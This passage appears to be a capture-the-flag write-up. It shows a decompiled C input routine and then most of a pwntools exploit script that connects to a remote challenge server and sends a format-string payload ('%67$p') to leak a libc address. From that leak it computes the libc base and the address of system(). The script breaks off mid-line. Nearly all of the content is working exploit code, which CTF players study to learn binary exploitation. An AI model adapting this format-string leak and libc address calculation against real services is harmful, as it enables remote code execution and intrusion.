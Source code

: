 ```c
int get_int_number()
{
  char buf[24]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  read(0, buf, 0xFuLL);
  return atoi(buf);
}
```

Full exploit 
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chal") 
libc = ELF("//usr/lib/x86_64-linux-gnu/libc.so.6")
# ld = ELF("./ld-2.35.so")

context.update(os = "linux", arch = "amd64", log_level = "debug", terminal = "cmd.exe /c start wsl".split(), binary = exe)

def debug():
    gdb.attach(p, gdbscript = """
        b* 0x40157A
        continue
    """)
    pause() 

# debug()

while True: 
    # p = process(exe.path)
    p = remote("152.69.210.130", 2004)

    sl  = p.sendline
    sa  = p.sendafter
    sla = p.sendlineafter
    rl  = p.recvline
    ru  = p.recvuntil

    ru(b"Lucky number: ")
    lucky_number = int(rl().strip(), 10)

    if lucky_number == 68: 
        break  
    else: 
        p.close() 

sl(b"-")
payload = b"%67$p"
sla(b"name: ", payload) 

libc_leak = int(rl().strip(), 16)
libc_base = libc_leak - libc.symbols["__libc_start_main"] - 128 
system = libc_base + libc.symbols["system"]

log.info(f"libc base = {hex(libc_base)}")
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"system = {hex(system)}")

package = {
```